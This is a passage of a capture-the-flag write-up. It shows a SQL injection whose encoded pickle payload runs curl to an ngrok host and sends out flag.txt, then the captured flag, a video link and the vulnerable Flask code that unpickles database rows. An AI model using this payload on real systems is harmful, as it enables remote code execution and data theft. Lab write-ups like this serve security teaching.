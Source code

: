 > url-decode request: 
> `0 union select 'gASVWwAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjEBjdXJsIGh0dHBzOi8vMjI5Yi05My01MS01NC0xODcuZXUubmdyb2suaW8vYGNhdCBmbGFnLnR4dHxiYXNlNjRglIWUUpQu'`

```bash
$ ngrok http 10099
...
GET /WC1NQVN7M0xmX0h1TTRuX1IzNTB1ckMzNV93MWxMXzgzX0Mwbjc0QzcxTjlfWTB1XzUwMG59 502 Bad Gateway
...
$ echo WC1NQVN7M0xmX0h1TTRuX1IzNTB1ckMzNV93MWxMXzgzX0Mwbjc0QzcxTjlfWTB1XzUwMG59 | base64 -d                                                            
X-MAS{3Lf_HuM4n_R350urC35_w1lL_83_C0n74C71N9_Y0u_500n}
```

# Flag

>[!success]
> `X-MAS{3Lf_HuM4n_R350urC35_w1lL_83_C0n74C71N9_Y0u_500n}`

# Video Writeup

<iframe width="660" height="415" src="https://www.youtube.com/embed/E7bl0taVWNM" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

# Extra miles
## Vulnerable source code
```python
import base64
import dataclasses
import os
import pickle
import sqlite3
from typing import Optional

from flask import Flask, render_template


@dataclasses.dataclass
class Elf:
	name: str
	activity: str
	id: Optional[int] = dataclasses.field(default=None)


app = Flask(__name__)

db = sqlite3.connect('file::memory:?cache=shared', check_same_thread=False)


@app.route("/")
def index() - str:
	cursor = db.execute("select id, data from elves")
	elves = []
	for record in cursor:
		elf = pickle.loads(base64.b64decode(record[1]))
		elf.id = record[0]
		elves.append(elf)
	return render_template("index.html", elves=elves)


```